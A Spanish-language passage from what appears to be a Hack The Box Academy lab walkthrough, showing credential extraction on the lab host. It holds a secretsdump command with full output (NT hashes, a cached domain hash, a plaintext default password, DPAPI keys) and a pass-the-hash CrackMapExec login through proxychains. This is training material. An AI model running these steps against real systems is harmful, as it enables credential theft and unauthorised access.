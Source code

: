 Ahora podemos modificar nuevamente las extensiones de archivo permitidas para permitirnos descargar los archivos `.SAVE`. A continuación, podemos volver a la página de `File Management` y descargar cada uno de los tres archivos en nuestro host de ataque.

![text](https://academy.hackthebox.com/storage/modules/163/download_sam.png)

Finalmente, podemos usar `secretsdump` para volcar la base de datos SAM y recuperar un conjunto de credenciales de LSA secrets.

```r
secretsdump.py LOCAL -system SYSTEM.SAVE -sam SAM.SAVE -security SECURITY.SAVE

Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xb3a720652a6fca7e31c1659e3d619944
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mpalledorous:1001:aad3b435b51404eeaad3b435b51404ee:3bb874a52ce7b0d64ee2a82bbf3fe1cc:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/hporter:$DCC2$10240#hporter#f7d7bba128ca183106b8a3b3de5924bc
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:3e002600200046005a003000460021004b00460071002e002b004d0042005000480045002e006c00280078007900580044003b0050006100790033006e002a0047004100590020006e002d00390059003b0035003e0077005d005f004b004900400051004e0062005700440074006b005e0075004000490061005d006000610063002400660033003c0061002b0060003900330060006a00620056006e003e00210076004a002100340049003b00210024005d004d006700210051004b002e004f007200290027004c00720030005600760027004f0055003b005500640061004a006900750032006800540033006c00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:cb8a6327fc3dad4ea7c84b88c7542e7c
[*] DefaultPassword 
(Unknown User):Gr8hambino!
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6968d50f5ec2bc41bc207a35f0392b72bb083c22
dpapi_userkey:0xe1e7a8bc8273395552ae8e23529ad8740d82ea92
[*] NL$KM 
 0000   21 0C E6 AC 8B 08 9B 39  97 EA D9 C6 77 DB 10 E6   !......9....w...
 0010   2E B2 53 43 7E B8 06 64  B3 EB 89 B1 DA D1 22 C7   ..SC~..d......".
 0020   11 83 FA 35 DB 57 3E B0  9D 84 59 41 90 18 7A 8D   ...5.W>...YA..z.
 0030   ED C9 1C 26 FF B7 DA 6F  02 C9 2E 18 9D CA 08 2D   ...&...o.......-
NL$KM:210ce6ac8b089b3997ead9c677db10e62eb253437eb80664b3eb89b1dad122c71183fa35db573eb09d84594190187a8dedc91c26ffb7da6f02c92e189dca082d
[*] Cleaning up... 
```

Confirmamos que estas credenciales funcionan usando `CrackMapExec` y ahora tenemos una forma de volver a este sistema en caso de que perdamos nuestra reverse shell.

```r
proxychains crackmapexec smb 172.16.8.20 --local-auth -u administrator -H <redacted>

ProxyChains-3.1 (http://proxychains.sf.net)
[*] Initializing LDAP protocol database
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:135-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-AEN-DEV) (domain:ACADEMY-AEN-DEV) (signing:False) (SMBv1:False)
|S-chain|-<>-127.0.0.1:8081-<><>-172.16.8.20:445-<><>-OK
SMB         172.16.8.20     445    ACADEMY-AEN-DEV  [+] ACADEMY-AEN-DEV\administrator <redacted> (Pwn3d!)
```